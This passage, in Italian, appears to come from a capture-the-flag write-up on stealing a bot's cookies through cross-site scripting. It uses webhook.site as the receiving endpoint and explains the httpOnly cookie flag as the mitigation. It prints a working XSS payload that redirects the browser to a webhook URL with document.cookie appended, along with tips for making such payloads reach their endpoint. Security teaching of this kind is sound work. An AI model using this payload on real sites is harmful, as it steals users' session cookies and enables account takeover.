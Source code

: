 ##### Cookie stealing e webhooks
I cookie sono un tipo di header speciale, e per questo esiste una sorta di shortcut in javascript che permette di accedervi, ovvero la proprietà `document.cookie`. 

Per riuscire ad esfiltrare i cookie di un utente sul sito, si ha bisogno di un endpoint che sia raggiungibile dalla vittima, il che significa che bisogna esporre un server per fare in modo che sia raggiungibile da chiunque. 

I [webhook](https://en.wikipedia.org/wiki/Webhook) sono... cose... molto versatili. Per quel che riguarda questa challenge, un sito come [webhook.site](https://webhook.site/) permette di utilizzarli come se si stesse utilizzando un proprio server esposto al mondo esterno.

Per fare una prova, si può utilizzare un payload di questo tipo. `<script>window.location="https://webhook.site/[REDACTED]?c="+document.cookie</script>`

In questo tipo di payload è importante non utilizzare un tag HTML, ma assicurarsi che stia venendo effettivamente eseguito del codice javascript (va bene inserire l'URL al webhook concatenato con `document.cookie` dentro ad un `onerror`, ma non in una semplice `src`) in modo che document.cookie sia "raggiungibile".

Inoltre, bisogna appendere i cookie come query parameter (webhook e server personale) o come path (solo server personale). Non farlo significa appendere i cookie come parte dell'host, il che significa che la richiesta non raggiungerà mai la destinazione desiderata. Per esempio, invece di finire su `myhost.com`, finirebbe su `myhost.comCOOKIENAME=COOKIEVALUE`, che non ha senso, al contrario di `myhost.com?c=COOKIENAME=COOKIEVALUE` o `myhost.com/COOKIENAME=COOKIEVALUE` (che con `webhook,site` non ha senso, a meno che non si sia proprietari di suddetto dominio).

Eseguendo il payload poco sopra inviandolo nella pagina di ricerca, si ottiene il risultato seguente su webhook.site:

![Esempio risultato webhook](./media/img/FirstWebhook.png)

Ecco i cookies!

#### Secondo passo: Cookie stealing al bot
Forse avrebbe avuto più senso trovare prima un payload valido con il filtro di caratteri, ma in gara ero un po' nel panico e volevo essere sicuro di poter rubare i cookie al bot senza problemi. Paura immotivata, visto che non c'era alcun tipo di controllo in questo senso e non veniva specificato il valore di [`httpOnly`](https://owasp.org/www-community/HttpOnly) per il cookie `flag`, che verrà quindi settato come da default value a `false`.

*che significa?* Per motivi di sicurezza è stata introdotta la flag opzionale `httpOnly` per il cookie, che se settata a `true` non permette al codice javascript presente nel documento di accedere a `document.cookie`, mitigando esattamente il tipo di attacco che sto per effettuare.
